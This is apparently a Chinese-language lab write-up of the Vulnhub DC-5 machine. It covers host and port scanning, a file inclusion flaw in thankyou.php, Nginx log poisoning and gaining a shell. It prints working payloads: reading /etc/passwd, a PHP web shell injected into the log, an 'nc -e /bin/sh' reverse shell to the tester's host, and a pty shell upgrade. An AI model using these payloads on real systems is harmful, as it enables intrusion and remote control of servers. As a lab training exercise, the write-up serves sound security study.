> 进行了一次Vulnhub DC-5 渗透测试，内容较为简单，主要练习相关环境的建立与测试流程。
>
> 靶机：https://www.vulnhub.com/entry/dc-5,314/

## 1. 主机发现

利用`netdiscover`发现主机，`192.168.203.130`

```bash
 $ netdiscover
 Currently scanning: 192.168.234.0/16   |   Screen View: Unique Hosts

 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.205.1   e2:b5:5f:2f:91:64      1      60  Unknown vendor
 192.168.205.7   00:0c:29:63:68:89      1      60  VMware, Inc.
```

或者使用`nmap -sP 192.168.205.0/24`

```bash
> nmap -sP 192.168.205.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 15:48 CST
Nmap scan report for 192.168.205.1
Host is up (0.00036s latency).
MAC Address: E2:B5:5F:2F:91:64 (Unknown)
Nmap scan report for 192.168.205.7
Host is up (0.0012s latency).
MAC Address: 00:0C:29:63:68:89 (VMware)
Nmap scan report for 192.168.205.4
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.08 seconds
```

## 2. 端口扫描

```bash
> nmap -sV -A 192.168.205.7
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-11 15:37 CST
Nmap scan report for 192.168.205.7
Host is up (0.00093s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Welcome
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43447/tcp   status
|   100024  1          46548/udp6  status
|   100024  1          53003/udp   status
|_  100024  1          60147/tcp6  status
MAC Address: 00:0C:29:63:68:89 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.93 ms 192.168.205.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## 3. 入侵点测试

可以看到主要可利用端口为`80`。

查看了Web页面，没有什么CMS，只有几个标题页脚和几个页面。

其中`Home`、`Solutions`、`About Us`、`FAQ`都是一些文字没有利用空间。

在`Contact`页面中有表单提交，进行尝试分析。



在提交了几次表单后，发现**页脚的年份在不断变化**。

可能是引入了`footer.php`来输出页脚信息。



### 3.1 文件包含漏洞

因为页脚信息可能是通过包含`footer.php`进行输出的，所以可能存在文件包含漏洞，这里简单读一下系统目录发现直接就能读：`http://192.168.205.7/thankyou.php?file=/etc/passwd`

说明此处存在**文件包含漏洞**。



同样可以使用伪协议来读取`thankyou.php`源码：`http://192.168.205.7/thankyou.php?file=php://filter/read=convert.base64-encode/resource=thankyou.php`



解码可以看到确实是通过包含`footer.php`用以输出页脚信息。

```php
···
<footer>
	<?php
		$file = $_GET['file'];
		if(isset($file)){
			include("$file");
		}
		else{
			include("footer.php");
		}
	?>
</footer>
···
```

顺便看一下`footer.php`内容。

```php
<?php
//Random Gen Test
$rndmYears = array(
    "Copyright © 2017", 
    "Copyright © 2018", 
    "Copyright © 2019", 
    "Copyright © 2020"
);
echo $rndmYears[mt_rand(0, count($rndmYears)-1)];
?>
```

### 3.2 `Nginx`日志

可以看到Web服务器使用了`Nginx`服务器，可以探测是否具有`Nginx`日志利用的可能。



查看`Nginx`配置文件：`http://192.168.205.7/thankyou.php?file=/etc/nginx/nginx.conf`



可以看到log存放的目录：

```json
access_log /var/log/nginx/access.log;
error_log /var/log/nginx/error.log;
```

之后发包测试带入`<?php phpinfo();?>`看是否执行。



之后验证读取日志文件：`http://192.168.205.7/thankyou.php?file=/var/log/nginx/error.log`



发现成功显示，说明Nginx日志写入命令成功执行。

## 4. 漏洞利用

之后结合本地文件包含与Nginx日志进行Getshell。

传入一句话`http://192.168.205.7/thankyou.php?file=<?php system($_REQUEST['cmd']);?>`



可以看到成功读取内容：`http://192.168.205.7/thankyou.php？file=/var/log/nginx/error.log&cmd=ls`



反弹shell：`/thankyou.php?file=/var/log/nginx/error.log&cmd=nc -e /bin/sh 192.168.205.4 4444`



nc连接，反弹成功。

```bash
> nc -lvp 4444
listening on [any] 4444 ...
192.168.205.7: inverse host lookup failed: Unknown host
connect to [192.168.205.4] from (UNKNOWN) [192.168.205.7] 57668
ls
about-us.php
contact.php
css
faq.php
footer.php
images
index.php
solutions.php
thankyou.php
```

切换为交互式`bash`：`python -c "import pty;pty.spawn('/bin/bash')"`

```bash
···
solutions.php
thankyou.php
python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-5:~/html$ ls
ls
about-us.php  css      footer.php  index.php	  thankyou.php
contact.php   faq.php  images	   solutions.php
www-data@dc-5:~/html$
```

之后为提权内容参见*Vulnhub DC-5 渗透测试(2)*。

